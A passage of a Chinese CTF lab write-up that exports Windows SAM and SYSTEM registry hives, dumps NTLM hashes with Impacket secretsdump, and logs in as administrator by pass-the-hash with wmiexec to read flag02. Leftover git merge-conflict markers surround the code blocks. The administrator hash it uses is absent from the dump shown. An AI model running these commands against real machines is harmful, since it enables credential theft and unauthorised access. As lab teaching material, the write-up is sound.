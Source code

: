 #### 方法 2 注册表 SAM 转储

重置环境，尝试直接转储 sam 和 system，发现不需要特权即可以成功导出：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
PS C:\Users\chenhua\Desktop> cd C:\
PS C:\Users\chenhua\Desktop> mkdir Temp
PS C:\Users\chenhua\Desktop> cd C:\Temp
PS C:\Temp> reg save hklm\sam c:\Temp\sam
PS C:\Temp> reg save hklm\system c:\Temp\system
```

下载到本地，提取 Administrator 的 NTLM hash：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
python secretsdump.py -sam sam -system system LOCAL
-----
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x6c2be46aaccdf65a9b7be2941d6e7759
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:a2fa2853651307ab9936cc95c0e0acf5:::
chentao:1000:aad3b435b51404eeaad3b435b51404ee:47466010c82da0b75328192959da3658:::
zhaoli:1001:aad3b435b51404eeaad3b435b51404ee:2b83822caab67ef07b614d05fd72e215:::
wangning:1002:aad3b435b51404eeaad3b435b51404ee:3c52d89c176321511ec686d6c05770e3:::
zhangling:1003:aad3b435b51404eeaad3b435b51404ee:8349a4c5dd1bdcbc5a14333dd13d9f81:::
zhangying:1004:aad3b435b51404eeaad3b435b51404ee:8497fa5480a163cb7817f23a8525be7d:::
lilong:1005:aad3b435b51404eeaad3b435b51404ee:c3612c48cf829d1149f7a4e3ef4acb8a:::
liyumei:1006:aad3b435b51404eeaad3b435b51404ee:63ddcde0fa219c75e48e2cba6ea8c471:::
wangzhiqiang:1007:aad3b435b51404eeaad3b435b51404ee:5a661f54da156dc93a5b546ea143ea07:::
zhouyong:1008:aad3b435b51404eeaad3b435b51404ee:5d49bf647380720b9f6a15dbc3ffe432:::
[*] Cleaning up...
```

以管理员权限登录获得 flag02：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
python wmiexec.py administrator@172.22.17.6 -hashes :f82292b7ac79b05d5b0e3d302bd0d279 -codec gbk
-----
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>cd C:\Users\Administrator\flag
C:\Users\Administrator\flag>dir
 驱动器 C 中的卷没有标签。
 卷的序列号是 C02E-FBD8

 C:\Users\Administrator\flag 的目录

2023/12/25  23:49    <DIR>          .
2024/03/05  10:19    <DIR>          ..
2024/03/05  10:11               350 flag02.txt
```
